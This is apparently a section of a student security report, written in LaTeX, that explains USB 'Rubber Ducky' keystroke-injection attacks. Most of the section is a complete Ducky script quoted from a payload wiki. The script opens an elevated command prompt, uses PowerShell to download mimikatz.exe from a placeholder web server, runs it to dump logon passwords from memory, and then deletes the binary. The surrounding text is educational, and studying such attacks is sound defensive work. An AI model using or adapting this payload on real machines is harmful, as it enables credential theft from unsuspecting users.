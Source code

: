 \section{Chuck's Attack: "Rubber Ducky" mallicious USB devices attack}
A "Rubber Ducky" attack is neither a client or server side attack and instead is a physical attack that preys on either a person's curiosity or a person's lack of knowledge. The basis for the attack is either an infected USB thumbdrive or a specifically created USB drive.

\subsection{Designed devices}
There are commercially created devices that are used to execute this type of attack. A common one is the Hakshop USB Rubber Ducky. It is created to make writing the attack as simple as possible so the barrier of entry is lowered. They also have a github repository that has premade attacks (https://github.com/hak5darren/USB-Rubber-Ducky). \\
\\
\begin{verbatim}
REM mimikatz ducky script to dump local wdigest passwords from memory using mimikatz (local user needs to be an administrator/have admin privs)
DELAY 3000
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 300
ENTER
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://<replace me with webserver ip/host>/mimikatz.exe','%TEMP%\mimikatz.exe')
DELAY 300
ENTER
DELAY 3000
STRING %TEMP%\mimikatz.exe
DELAY 300
ENTER
DELAY 3000
STRING privilege::debug
DELAY 300
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
DELAY 300
ENTER
DELAY 1000
STRING exit
DELAY 300
ENTER
DELAY 100
STRING del %TEMP%\mimikatz.exe
DELAY 300
ENTER
\end{verbatim}
This attack is from the payload wiki that is created for the hakshop device. It uses mimikatz and the elevated privages of a user to dump their passwords from digest. The nice thing about these devices is that writing custom scripts for it is easy and it just requires the user to know what keystrokes they want to simulate\\
\\

